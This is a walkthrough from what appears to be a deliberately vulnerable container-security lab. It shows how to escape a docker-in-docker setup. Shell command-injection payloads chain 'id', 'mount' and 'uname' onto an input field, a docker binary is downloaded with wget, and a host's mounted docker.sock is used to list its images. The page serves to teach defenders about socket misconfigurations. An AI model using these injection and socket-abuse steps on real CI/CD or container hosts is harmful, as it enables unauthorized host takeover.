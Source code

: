 # ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from underlying container runtime. This has been exploited since the early days of the container ecosystem and till today we see this misconfiguration/use cases in the real world. 

![Scenario 2](images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.

:::info

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.

:::tip

If you can able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimetor when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

* By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](images/sc-2-2.png)

* As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

* It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](images/sc-2-3.png)

* Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  

:::

* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

* We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](images/sc-2-4.png)

* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host images](images/sc-2-6.png)

* Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation

## 🔖 References

* [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
